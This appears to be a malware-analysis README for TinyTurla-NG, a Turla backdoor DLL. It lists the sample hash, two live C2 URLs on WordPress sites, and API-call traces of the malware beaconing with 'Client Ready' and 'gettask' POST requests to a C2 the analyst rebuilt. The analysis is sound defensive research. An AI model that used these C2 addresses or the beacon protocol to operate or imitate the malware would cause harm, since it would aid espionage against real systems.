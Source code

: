 SHA256 : 267071DF79927ABD1E57F57106924DD8A68E1C4ED74E7B69403CDCDF6E6A453B  
sample source : https://bazaar.abuse.ch/sample/267071df79927abd1e57f57106924dd8a68e1c4ed74e7b69403cdcdf6e6a453b/  
VT : https://www.virustotal.com/gui/file/267071df79927abd1e57f57106924dd8a68e1c4ed74e7b69403cdcdf6e6a453b  
Report: https://blog.talosintelligence.com/tinyturla-next-generation/  


C2 :  
https://thefinetreats.com/wp-content/themes/twentyseventeen/rss-old.php  
https://hanagram.jp/wp/wp-content/themes/hanagram/rss-old.php  

Analyzed sample is a 64bit Service DLL attributed to TURLA by TALOS and named TinyTurla-NG.

Results are shared in two files :

    logs.txt which contains an execution trace of the malware until it connects to a C2 and execute 2 chosen commands
    conf.txt which contains the configuration used to analyse this sample, notably the list of API call filtered from the logs

**Commentary**

Analysed sample is already well described in the TALOS report so I won't go into details.  
For this analysis, I chose to rebuild a small C2 and order the malware to execute the following commands while supervised :  

- dir C:\users  
- get https://hanagram.jp/hanagram.cert toto.cer  

---

First Beaconing to a reachable C2 :  

```html
[ * ] [pid 0x254][tid 0x664] c:\windows\system32\svchost.exe
[API] <WinHttpConnect> in [WINHTTP.dll] 
[PAR] HINTERNET     hSession       : 0x3e803410
[PAR] LPCWSTR       pswzServerName : 0x000000F43F8A4850
[STR]               -> "hanagram.jp"
[PAR] INTERNET_PORT nServerPort    : 443
[RET] 0x7fff146bbb16 in [tinyturla.dll]

[ * ] [pid 0x254][tid 0x664] c:\windows\system32\svchost.exe
[API] <WinHttpOpenRequest> in [WINHTTP.dll] 
[PAR] HINTERNET hConnect          : 0x3f66b470
[PAR] LPCWSTR   pwszVerb          : 0x000000F44055F668
[STR]           -> "POST"
[PAR] LPCWSTR   pwszObjectName    : 0x000000F43F2C6E40
[STR]           -> "/wp/wp-content/themes/hanagram/rss-old.php"
[PAR] LPCWSTR   pwszVersion       : 0x0 (null)
[PAR] LPCWSTR   pwszReferrer      : 0x0 (null)
[PAR] LPCWSTR   *ppwszAcceptTypes : 0x0
[PAR] DWORD     dwFlags           : 0x800100 (WINHTTP_FLAG_SECURE | WINHTTP_FLAG_BYPASS_PROXY_CACHE)
[RET] 0x7fff146bbc26 in [tinyturla.dll]

[ * ] [pid 0x254][tid 0x664] c:\windows\system32\svchost.exe
[API] <WinHttpSendRequest> in [WINHTTP.dll] 
[PAR] HINTERNET hRequest         : 0x000000F43F5920B0
[PAR] LPCWSTR   pwszHeaders      : 0x000000F43F2C6E40
[STR]           -> "Content-Type: multipart/form-data; boundary="-""
[PAR] DWORD     dwHeadersLength  : 0xffffffff
[PAR] LPVOID    lpOptional       : 0x0 (null)
[PAR] DWORD     dwOptionalLength : 0x0
[PAR] DWORD     dwTotalLength    : 0xbe
[RET] 0x7fff146bd38b in [tinyturla.dll]

Thread created by monitored process : Now monitoring [pid 0x254][tid 0x2d4]

[ * ] [pid 0x254][tid 0x664] c:\windows\system32\svchost.exe
[API] <WinHttpWriteData> in [WINHTTP.dll] 
[PAR] HINTERNET hRequest                 : 0x000000F43F5920B0
[PAR] LPCVOID   lpBuffer                 : 0x000000F43F8AE4C0
[STR]           -> "---"
[STR]              "Content-Disposition: form-data;name="id""
[STR]              "Content-Type: text/plain"
[STR]              ""
[STR]              "ea2ced84"
[STR]              "---"
[STR]              "Content-Disposition: form-data;name="result""
[STR]              "Content-Type: text/plain"
[STR]              ""
[STR]              "Client Ready" <-- Ready for buisiness>
[STR]              "-----"
[PAR] DWORD     dwNumberOfBytesToWrite   : 0xbe
[PAR] LPDWORD   lpdwNumberOfBytesWritten : 0x000000F44055F6C0
[RET] 0x7fff146bd3f2 in [tinyturla.dll]
```

As mentionned in the report the first beaconing contains the "Client Ready" message to signal the C2 that the is malware is up and ready to receive orders.  

---  

With the following 'gettask' message, the malware is offering the C2 an opportunity to reply with an order :  

```html
[ * ] [pid 0x254][tid 0x664] c:\windows\system32\svchost.exe
[API] <WinHttpConnect> in [WINHTTP.dll] 
[PAR] HINTERNET     hSession       : 0x3e803dc0
[PAR] LPCWSTR       pswzServerName : 0x000000F43F8A4E50
[STR]               -> "hanagram.jp"
[PAR] INTERNET_PORT nServerPort    : 443
[RET] 0x7fff146bbb16 in [tinyturla.dll]

[ * ] [pid 0x254][tid 0x664] c:\windows\system32\svchost.exe
[API] <WinHttpOpenRequest> in [WINHTTP.dll] 
[PAR] HINTERNET hConnect          : 0x3f66aad0
[PAR] LPCWSTR   pwszVerb          : 0x000000F44055F728
[STR]           -> "POST"
[PAR] LPCWSTR   pwszObjectName    : 0x000000F43F3BD070
[STR]           -> "/wp/wp-content/themes/hanagram/rss-old.php"
[PAR] LPCWSTR   pwszVersion       : 0x0 (null)
[PAR] LPCWSTR   pwszReferrer      : 0x0 (null)
[PAR] LPCWSTR   *ppwszAcceptTypes : 0x0
[PAR] DWORD     dwFlags           : 0x800100 (WINHTTP_FLAG_SECURE | WINHTTP_FLAG_BYPASS_PROXY_CACHE)
[RET] 0x7fff146bbc26 in [tinyturla.dll]

[ * ] [pid 0x254][tid 0x664] c:\windows\system32\svchost.exe
[API] <WinHttpSendRequest> in [WINHTTP.dll] 
[PAR] HINTERNET hRequest         : 0x000000F43F370140
[PAR] LPCWSTR   pwszHeaders      : 0x000000F43F3BC580
[STR]           -> "Content-Type: multipart/form-data; boundary="-""
[PAR] DWORD     dwHeadersLength  : 0xffffffff
[PAR] LPVOID    lpOptional       : 0x0 (null)
[PAR] DWORD     dwOptionalLength : 0x0
[PAR] DWORD     dwTotalLength    : 0xaf
[RET] 0x7fff146bd38b in [tinyturla.dll]

[ * ] [pid 0x254][tid 0x664] c:\windows\system32\svchost.exe
[API] <WinHttpWriteData> in [WINHTTP.dll] 
[PAR] HINTERNET hRequest                 : 0x000000F43F370140
[PAR] LPCVOID   lpBuffer                 : 0x000000F43E806620
[STR]           -> "---"
[STR]              "Content-Disposition: form-data;name="id""
[STR]              "Content-Type: text/plain"
[STR]              ""
[STR]              "ea2ced84"
[STR]              "---"
[STR]              "Content-Disposition: form-data;name="gettask"" <-- your wish is my command>
[STR]              "Content-Type: text/plain"
[STR]              ""
[STR]              "-----"
[PAR] DWORD     dwNumberOfBytesToWrite   : 0xaf
[PAR] LPDWORD   lpdwNumberOfBytesWritten : 0x000000F44055F780
[RET] 0x7fff146bd3f2 in [tinyturla.dll]
```
---  



